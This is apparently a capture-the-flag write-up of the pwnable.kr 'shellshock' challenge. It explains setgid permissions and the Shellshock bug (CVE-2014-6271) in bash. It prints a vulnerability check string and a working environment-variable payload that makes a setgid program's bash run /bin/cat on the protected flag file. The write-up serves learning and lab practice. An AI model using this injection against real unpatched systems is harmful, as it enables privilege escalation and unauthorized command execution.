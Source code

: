```yaml
---
layout: post
title: pwnable.kr - shellshock
---
```


## Prompt
Mommy, there was a shocking news about bash.
I bet you already know, but lets just make it sure :)


ssh shellshock@pwnable.kr -p2222 (pw:guest)

## Analysis
We have an executable called `shellshock`, its source `shellshock.c`, and a `bash` executable.

Let's check permissions:
```
shellshock@pwnable:~$ ls -l
total 960
-r-xr-xr-x 1 root shellshock     959120 Oct 12  2014 bash
-r--r----- 1 root shellshock_pwn     47 Oct 12  2014 flag
-r-xr-sr-x 1 root shellshock_pwn   8547 Oct 12  2014 shellshock
-r--r--r-- 1 root root              188 Oct 12  2014 shellshock.c
```
`flag` is only readable to root and users in the group shellshock_pwn. The `bash` ELF can be read and executed by any user. The `shellshock` file can be read and executed by anyone and has the `setgid` bit set. When a file has the `setgid` bit, it executes with the privileges of the group of the user who owns it instead of executing with those of the group of the user who executed it. So, `shellshock` can open the `flag`.

**shellshock.c**:
```c
#include <stdio.h>
int main(){
        setresuid(getegid(), getegid(), getegid());
        setresgid(getegid(), getegid(), getegid());
        system("/home/shellshock/bash -c 'echo shock_me'");
        return 0;
}
```

`setresuid()` sets the real user ID, the effective user ID, and the saved set-user-ID of the calling process. The getegid() function returns the effective group ID of the calling process. So, the script will be run with the group ID shellshock_pwn.

The name of this challenge is a hint towards how to exploit `bash` to read our flag. See an explanation for the Shellshock Bash RCE [here](https://www.troyhunt.com/everything-you-need-to-know-about2/). [This article](https://www.theregister.com/2014/09/24/bash_shell_vuln/) explains how we can check for this vulnerability:
```
env X="() { :;} ; echo busted" /bin/sh -c "echo completed"
env X="() { :;} ; echo busted" `which bash` -c "echo completed"
```
The systems normal /bin/sh is patched, but the executable in our home folder is not:
```
shellshock@pwnable:~$ env X="() { :;} ; echo busted" /bin/sh -c "echo completed"
completed
shellshock@pwnable:~$ env X="() { :;} ; echo busted" ~/bash -c "echo completed"
busted
completed
```
Since shellshock makes it so `bash` will execute trailing commands when it imports a function definition stored into an environment variable, we just need to specify our desired effect when `bash` is run.
## Solution

Use the CVE-2014-6271 vulnerability to append our desired command to an unused environment variable. Run `shellshock` to execute `bash` with the proper permissions to open `flag`.
```
shellshock@pwnable:~$ export X="() { :; }; /bin/cat flag;"
shellshock@pwnable:~$ ./shellshock
{flag}
Segmentation fault (core dumped)
```